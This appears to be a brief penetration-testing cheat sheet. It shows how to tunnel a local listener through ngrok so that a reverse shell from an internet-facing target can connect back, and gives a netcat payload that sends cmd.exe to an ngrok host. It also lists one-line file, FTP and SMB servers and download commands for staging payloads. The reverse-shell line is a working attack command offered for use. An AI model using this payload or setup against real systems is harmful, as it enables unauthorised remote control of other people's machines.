  

# GENERAL

### Host a webserver or ftp publicly
 
 We will use ngrok to port forward our local server to public

first start a python server and then simple use ngrok in same directort

./ngrok http portnumber



then youll get a url and thats our public facing server

If we want to open a public facing port to get a reverse shell connection back from real internet facing target

./ngrok tcp portnumber

Now use the url provided by ngrock as target destination in payloads


for example we get ngrok url like tcp://6.tcp.ngrok.io:11887

In payloads we will omit the tcp:// and seperate the port with host so payload will be like this


nc.exe 6.tcp.ngrok.io 11887 -e cmd.exe
 


### Web Server Service

python3 -m http.server portnumber

python -mSImpleHTTPServer portnumber

php -S IP:PORT


### FTP Server service

python3 -m pyftpdlib -p21


### SMB server service

python3 /opt/impacket-0.9.19/impacket/smbserver.py sharename .



### Downloading a file

- wget "url:port"

- curl "url:port"

 
> Run this on our local machine	
   
- scp  hostname@IP: <filepath>
